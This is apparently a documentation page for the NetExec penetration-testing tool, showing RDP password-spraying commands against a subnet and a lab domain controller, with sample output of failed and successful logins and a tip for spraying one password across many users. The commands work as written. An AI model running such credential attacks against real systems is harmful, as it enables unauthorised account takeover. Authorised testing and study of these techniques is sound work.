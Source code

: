 ```yaml
---
description: RDP password spraying using NetExec
---
```


# Password spraying

#### Password spraying

```
#~ poetry run NetExec rdp 192.168.1.0/24 -u user -p password
```

```
$ poetry run NetExec rdp 192.168.133.157 -u ron -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
$ poetry run NetExec rdp 192.168.133.157 -u rubeus -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
```

#### Password spraying (without bruteforce)

```
#~ poetry run NetExec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
└─$ poetry run NetExec rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
